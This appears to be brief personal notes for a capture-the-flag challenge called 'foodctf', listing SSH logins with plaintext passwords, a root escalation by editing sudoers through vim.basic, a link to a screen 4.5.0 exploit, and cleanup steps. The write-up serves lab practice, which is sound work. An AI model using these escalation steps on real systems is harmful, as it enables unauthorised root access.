Food

https://jc01.ninja/ctf/foodctf/ (I will be doing my path to exploit, see this writeup if you want thorough solution)

`ssh food@ip` passwod givemecookies

CHANGE PASSWORD
`/usr/sbin/passwd`

`/bin/su`

`ssh ramen@ip` password noodlesRTheBest

CHANGE PASSWORD

`ssh pasta@ip` password pastaisdynamic

CHANGE PASSWORD

food may be missing path, use `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

Exploit:

`vim.basic sudoers` add `USER ALL=(ALL:ALL) ALL` then `sudo su`

Alternative:

https://www.exploit-db.com/exploits/41154

MAKE SURE YOU REMOVE THE SCRIPT AND ROOTFILE AFTER DONE

`chmod 0755 /usr/bin/screen /usr/bin/screen-4.5.0 /usr/bin/vim.basic`
`visudo` --> remove the pwfeedback

